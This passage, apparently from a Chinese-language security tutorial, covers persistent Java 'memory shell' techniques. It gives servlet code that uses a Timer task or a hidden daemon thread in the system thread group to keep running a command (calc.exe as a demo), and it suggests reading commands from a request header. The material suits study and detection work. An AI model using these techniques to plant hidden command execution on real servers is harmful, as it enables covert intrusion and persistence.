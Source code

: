 ```java
package org.example.Servlets;

import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.util.TimerTask;

public class TimerServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        java.util.Timer executeSchedule = new java.util.Timer("shellTimer",false);
        TimerTask timerTask = new TimerTask() {
            @Override
            public void run() {
                        try {
                            Runtime.getRuntime().exec("calc.exe");
                        } catch (Exception e) {
                            e.printStackTrace();
                    }
                }
            };
        executeSchedule.schedule(timerTask,0,10000);
    }
}
```
动态获取命令参数思路可以考虑从线程中获取request请求,获取指定header的参数值,执行命令.
## Thread
从Timer内存马的思路中其实可以看到实质就是在后台单独起了一个非守护线程,在后台独立运行,将shell代码从当前的servlet中脱离出去,所以线程类内存马的思路其实直接创建一个单独的非守护线程执行恶意代码或者创建一个与jvm主线程绑定的守护线程即可.
### 实现代码
```java
package org.example.Servlets;

import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class ThreadServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        while (!group.getName().equals("system")) {
            group = group.getParent();
        }
        Thread d = new Thread(group, new Runnable() {
            public void run() {
                while (true) {
                    try {
                        Runtime.getRuntime().exec("calc.exe");
                        Thread.sleep(100);
                    } catch (Exception ignored) {
                    }
                }
            }
        }, "shell Thread", 0);
        d.setDaemon(true);
        d.start();
    }
}
```